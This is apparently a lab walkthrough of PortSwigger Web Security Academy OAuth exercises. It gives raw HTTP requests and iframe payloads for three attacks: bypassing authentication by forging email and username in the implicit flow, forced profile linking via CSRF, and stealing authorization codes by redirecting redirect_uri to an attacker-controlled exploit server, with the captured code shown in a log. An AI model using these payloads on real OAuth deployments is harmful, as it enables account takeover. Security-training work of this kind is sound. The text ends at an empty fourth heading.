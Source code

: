 # OAuth 2.0 authentication vulnerabilities

### >> 1. Authentication bypass via OAuth implicit flow
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password. To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net. You can log in with your own social media account using the following credentials: wiener:peter.`

Solution: 
- Change the payload to reflect the email address and username of Carlos
````http
POST /authenticate HTTP/1.1
Host: ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Cookie: session=AYlXg9S3SS3Yb7OjYfXNTGl8gFqgRvdt
Content-Length: 111
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"tY2Y8c57C6kHCy8X3BxnE4Hm3YoJyeOfMuhjlkFSQeb"}
````

### >> 2. Lab: Forced OAuth profile linking

>> This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts. To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos. The admin user will open anything you send from the exploit server and they always have an active session on the blog website. You can log in to your own accounts using the following credentials: Blog website account: wiener:peter Social media profile: peter.wiener:hotdog

- The request sends the authorization code to the /oauth-login `redirect_uri`
- There is no `state` parameter in the oauth, so it might be vulnerable to CSRF
````
https://oauth-ac4e1f2d1eaf72afc0ae569802f400e3.web-security-academy.net/auth?client_id=j2ba7uqsy1y35kw1wmd5o&redirect_uri=https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email
````

- Run the first login complete and then click to attach a social profile again, but now with interception on on burp
- Drop this request and copy the URL; perform logout
- Create a iframe object and delivery it to the victm using the Exploit server
````html
<iframe src="https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-linking?code=LTpkSauiz5Y_iiFdFkmU7jTvtADFySL_sOGqSWMgysp"></iframe>
````
- Click now in Login with Social Media and delete the Carlos user to complete the lab

### >> 3. Lab: OAuth account hijacking via redirect_uri

>> This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.  To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos. The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service. You can log in with your own social media account using the following credentials: wiener:peter.

- There is a redirect_url vulnerability where you can change the destination of the callback.

````http
GET /auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net
Cookie: _session=YqBOphL7KtRbtBcp4cgil; _session.legacy=YqBOphL7KtRbtBcp4cgil
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- Insert a iframe object with the redirect_url changed

````html
<iframe src="https://oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net/auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
````

- The callback returns a code to the webserver (controlled by the attacker)

````apache
172.31.30.114   2022-05-06 17:36:28 +0000 "GET /?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36"
````

- Use the code in a new login session

````
GET /oauth-callback?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1
Host: acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net
Cookie: session=FEmgoUPOnicODVY4VMMdZRbz8ozTJ570
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- And delete the user Carlos to complete the exercise

### >> 4.

